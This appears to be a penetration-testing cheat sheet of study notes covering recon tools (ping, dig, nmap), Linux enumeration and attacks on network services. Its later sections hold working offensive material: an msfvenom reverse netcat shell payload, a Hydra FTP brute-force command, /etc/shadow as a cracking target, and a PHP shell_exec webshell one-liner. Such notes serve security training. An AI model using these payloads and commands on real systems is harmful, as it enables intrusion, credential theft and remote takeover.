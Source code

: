 -- Networking --
Ping
Usage: Test a connection to a remote resource.
Command syntax:
ping <target>
(Typically returns the IP address for the target server)

Flags:
-i → Change intervals of sending ping requests.
-4 → Restrict to IPv4 only.
-v → Gives more verbose output.

Traceroute
Usage: Maps the path your request takes as it heads to the target machine.
Command syntax:
traceroute <destination>

Flags:
-i → Specify an interface.
-T → Use TCP SYN requests instead of ICMP.

WHOIS
Usage: Query who a domain name is registered to. Useful for recon.
Command syntax:
whois <domain>

Flags:
No specific flags commonly used.

Dig
Usage: Query recursive DNS servers for information about domains.
Command syntax:
dig <domain> @<dns-server-ip>

Flags:
+short → Return only IP(s) for the domain.
+trace → Show entire DNS path from root servers to authoritative servers.
-t <record-type> → Filter for specific record types:
MX → Mail records
NS → Name server records
TXT → Text records

Further Nmap
Nmap Switches
-sS → SYN scan (stealthier).
-sU → UDP scan.
-O → Detect operating system.
-sV → Detect service versions.
-v → Increase verbosity.
-vv → Extra verbosity.
-oA → Save results in all major formats.
-oN → Save in plain text format.
-oX → Save in XML format.
-oG → Save in grepable format.
-A → Aggressive mode (enables OS detection, version detection, and more).
-T1 to -T5 → Timing templates (1 = slow, 5 = fast).
-p <port> → Scan specific port.
-p <port-port> → Scan port range.
-p- → Scan all 65,535 ports.
--script → Run specific scripts.
--script=vuln → Run vulnerability detection scripts.

Linux: Local Enumeration
TTY/Text Terminal
Create a proper shell (useful for sudo/su):
python3 -c 'import pty; pty.spawn("/bin/bash")'

Basic Enumeration
Syntax:
uname [option]

Options:
-a → Print all information about the system.
-s → Print kernel name.
-m → Print machine hardware name.
-o → Print operating system name.

/ect Files
/etc/passwd → User info (plain text).
/etc/shadow → Encrypted passwords (for cracking).
/etc/hosts → Manual DNS mapping.

Find Command
Find specific files:
find -type f -name "*.log" 2>/dev/null
-type f → Files only.
-name → Name query.
2>/dev/null → Suppress permission errors.

SUID Files
Find SUID binaries:
find / -perm -u=s -type f 2>/dev/null

Network Services
SMB
Enumerating SMB with Enum4linux
enum4linux [option] <IP>

Options:
-U → Get user list.
-M → Get machine list.
-N → Get namelist dump.
-S → Get share list.
-P → Get password policy.
-G → Get group and member list.
-a → Get all of the above.

Telnet
Connect to a Telnet server:
telnet <ip> <port>

Start a tcpdump listener:
sudo tcpdump ip proto \icmp -i tun0

Generate a reverse shell payload using msfvenom:
msfvenom -p cmd/unix/reverse_netcat lhost=<local-ip> lport=4444 R

Open a Netcat listener:
nc -lvnp <port>

FTP
Brute-force FTP using Hydra:
hydra -t 4 -l <user> -P /usr/share/wordlists/rockyou.txt -vV <ip> ftp

NFS
Mount NFS shares:
sudo mount -t nfs <IP>:<share> /tmp/mount/ -nolock

MySQL
Use Metasploit to find MySQL vulnerabilities:
msfdb init

Webshells
Basic PHP Webshell Example

Simple one-liner in PHP:

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?> 

How It Works:

shell_exec() → Executes shell commands.

$_GET["cmd"] → Takes input from the URL.

<pre> → Ensures output formatting. 

Example: http://target.com/shell.php?cmd=ifconfig 
Executes ifconfig and returns network info.

Other Example Commands: 
whoami → Shows the current user. 
hostname → Displays system hostname. 
arch → Shows system architecture.

Finding Webshells in Kali: 
Kali includes pre-built webshells: /usr/share/webshells 
Example: 
php-reverse-shell → From PentestMonkey, works on Linux-based servers. 
